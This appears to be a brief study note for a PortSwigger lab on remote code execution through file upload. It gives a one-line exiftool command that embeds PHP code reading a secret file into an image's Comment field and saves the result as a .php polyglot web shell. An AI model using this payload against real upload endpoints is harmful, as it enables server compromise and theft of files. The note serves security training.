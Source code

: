 # Remote code execution via polyglot web shell upload

Source: Portswigger
Tools: Burpsuite
Technique: FIle upload
Fields: Web
Notes: polyglot file

- Use exiftool to add code php into Comment part of a png/jpg file with command:

```java
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```

- Then execute it